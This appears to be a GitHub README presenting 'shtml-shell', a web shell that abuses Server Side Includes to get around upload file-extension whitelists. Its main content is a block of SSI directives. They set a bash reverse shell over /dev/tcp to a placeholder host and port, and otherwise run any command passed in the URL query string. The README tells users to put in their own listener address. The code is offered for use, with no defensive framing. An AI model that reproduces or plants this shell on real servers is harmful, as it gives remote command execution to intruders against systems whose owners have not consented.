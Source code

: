 # shtml-shell

This shell abuses the Server Side Inclusions in HTML and allows you to get a reverse connection back to your own machine.

This can come in handy when you want to get around file extension whitlists.

Please change 0.0.0.0 to your host and 1337 to your port in the following lines if you want to get the reverse connection.

```sh

<!--#if expr="$QUERY_STRING_UNESCAPED = \$zero" -->
<!--#set var="shl" value="bash -i >& /dev/tcp/0.0.0.0/1337 0>&1" --> 
<!--#else -->
<!--#set var="shl" value=$QUERY_STRING_UNESCAPED -->
<!--#endif -->

 ```
![Shell Screenshot][product-screenshot]

References : 

 * What is SSI : https://httpd.apache.org/docs/current/howto/ssi.html#:~:text=What%20are%20SSI%3F,program%2C%20or%20other%20dynamic%20technology.
 
 * Learn about SSI : https://www.st-andrews.ac.uk/itsnew/web/ssi/

 * Documentation : https://httpd.apache.org/docs/2.4/mod/mod_include.html


[product-screenshot]: Img/ssi-shell.png
